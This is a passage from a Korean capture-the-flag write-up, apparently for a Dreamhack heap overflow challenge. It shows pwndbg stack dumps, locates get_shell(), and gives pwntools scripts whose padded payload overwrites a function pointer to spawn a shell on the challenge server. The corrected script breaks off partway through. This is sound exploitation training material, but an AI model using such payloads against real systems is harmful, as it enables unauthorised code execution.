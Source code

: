         ```
        00:0000│ esp 0xffffd340 ◂— 0xffffffff
        01:0004│-014 0xffffd344 —▸ 0xf7d877f0 ◂— 0x8c7
        02:0008│-010 0xffffd348 —▸ 0x804b1a0 ◂— 'aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa'
        03:000c│-00c 0xffffd34c —▸ 0x804b1d0 ◂— 0x8040061 /* 'a' */
        04:0010│-008 0xffffd350 ◂— 0
        05:0014│-004 0xffffd354 —▸ 0xffffd370 ◂— 1
        06:0018│ ebp 0xffffd358 ◂— 0
        07:001c│+004 0xffffd35c —▸ 0xf7d9ec65 (__libc_start_call_main+117) ◂— add esp, 0x10
        ```
        - 스택확인

        `0x804b1d0`주소의 값이 변경됨을 확인

    `0x804b1d0`주소에 `get_shell()`함수의 주소로 변형시키면 쉘 획득할 수 있음

    `"x/i get_shell" or "disass get_shell" or "info func"`등을 입력

    `0x804867b <get_shell>:       push   ebp`

    `0x804b1d0`주소에 들어갈 `get_shell()`함수의 주소 확인

## 3. 문제 풀이 코드

- 코드 수정 전
    ```
    from pwn import *

    #buf + get_shell()
    payload = b'\x90'*48 + b'\x7b\x86\x04\x08'
    r = remote('host3.dreamhack.games', 18645)

    r.send(payload)

    r.interactive()
    ```
    `\x90*48`: 버퍼에 아무 문자로 다 채움

    `b'\x7b\x86\x04\x08'`: `over->table()`함수의 주소를 `get_shell()`함수의 주소로 리틀엔디안 방식으로 덮음

    - 코드 수정 전 실행 이후

        쉘이 실행되지 않음

        포맷 스트링 방식도 사용되지 않음

64bit의 `heap buffer`는 `0x10`단위로 힙 메모리를 부여함을 확인

이 때문에 `0x20(32)byte[heap buffer size] + 0x8byte[prev_size] + 0x8byte[size field] = 0x30(48)byte`이 됨을 확인

여유 사이즈를 제거하기로 결정

- 코드 수정 이후
    ```
    from pwn import *

    #buf + get_shell()
    payload = b'\x90'*40 + b'\x7b\x86\x04\x08'
    r = remote('host3.dreamhack.games', 18645)
